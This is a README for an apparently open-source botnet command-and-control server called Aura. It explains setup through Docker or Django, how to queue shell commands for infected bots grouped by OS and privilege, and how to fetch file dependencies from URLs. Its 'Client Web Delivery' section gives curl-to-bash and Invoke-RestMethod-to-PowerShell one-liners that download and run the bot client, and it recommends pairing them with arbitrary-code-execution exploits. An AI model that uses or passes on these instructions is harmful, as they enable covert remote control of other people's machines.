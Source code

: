 # Aura Botnet - C2 Server

Getting Started
---
### Docker
The Docker image can be found [here](https://hub.docker.com/r/watersalesman/aura-c2/).
Follow the instructions below to run the server normally.

### From Git
To initialize the SQLite3 database, simply change into the [`aura-server`](../aura-server)
directory and run:
```
./manage.py migrate
```
After the database is initialized, create a superuser for the admin site by
running
```
./manage.py createsuperuser
```
More information on configuring database
and the admin site can be found in the following
[tutorial](https://docs.djangoproject.com/en/1.11/intro/tutorial02/)
and [documentation](https://docs.djangoproject.com/en/1.11/ref/databases/).

Finally, run the following to start the server:
```
./runserver.sh
```
[`runserver.sh`](../aura-server/runserver.sh) is just a wrapper around `manage.py runserver` with some default
options that runs the server on port 41450. This can be easily edited or
bypassed altogether.

Configuring Commands
---
These can easily be managed through the Django admin site or shell. The
client periodically communicates with the specified server using POST
requests to receive a command (default is every 5 minutes). Commands are
received as a JSON object specifying the shell to run the command in, file
dependencies, and the command to execute.

Commands can be set to run for specific bot groups defined by operating
system and user privilege.  This is specified in
[`aura-server/groups.json`](../aura-server/groups.json).
The only reserved group numbers are `-1`, for priority commands that are
run by all bots, and `-2`, for default commands that are run by all bots
only if there is no other command to run; you can also assign commands to
individual bots using the hash of their auth file.

Each command can be given a start time and end time. Oneshot commands will
only run once on each bot.

You can also specify file dependencies. These will be retrieved, before
running the command, into the same temporary directory that the command is
executed in. You can specify files on the bot's local filesystem with a file
path or a network file with a url path.

Client Web Delivery
---
The *static* folder can be used to store files to be served by a web server --
preferably an nginx server running on a different port or host as your Django
server. You will need to compile and place the files into the folders, and edit
the index files to reflect any changes like the server name. The simplicity of
executing via web delivery makes it easy to integrate with exploits that run
arbitrary code. An example in bash would be:

```
curl http://static-server-name/welcome/linux/rust | bash
```
In Powershell:
```
Invoke-RestMethod http://static-server-name/welcome/windows/rust | powershell
```

This will run the client with the current privileges, install any necessary
files, and cleanup the downloaded files.
